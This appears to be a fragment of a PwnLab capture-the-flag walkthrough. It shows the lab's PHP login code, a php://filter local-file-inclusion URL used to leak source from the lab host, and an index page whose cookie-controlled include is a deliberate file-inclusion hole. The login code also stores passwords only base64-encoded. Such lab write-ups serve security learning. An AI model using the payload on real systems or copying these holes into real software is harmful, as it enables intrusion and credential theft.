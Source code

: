 ```php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
	$luser = $_POST['user'];
	$lpass = base64_encode($_POST['pass']);

	$stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
	$stmt->bind_param('ss', $luser, $lpass);

	$stmt->execute();
	$stmt->store_Result();

	if ($stmt->num_rows == 1)
	{
		$_SESSION['user'] = $luser;
		header('Location: ?page=upload');
	}
	else
	{
		echo "Login failed.";
	}
}
else
{
	?>
	<form action="" method="POST">
	<label>Username: </label><input id="user" type="test" name="user"><br />
	<label>Password: </label><input id="pass" type="password" name="pass"><br />
	<input type="submit" name="submit" value="Login">
	</form>
	<?php
}
```
___

```http
http://192.168.3.185/?page=php://filter/convert.base64-encode/resource=index
```

```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
	if (isset($_GET['page']))
```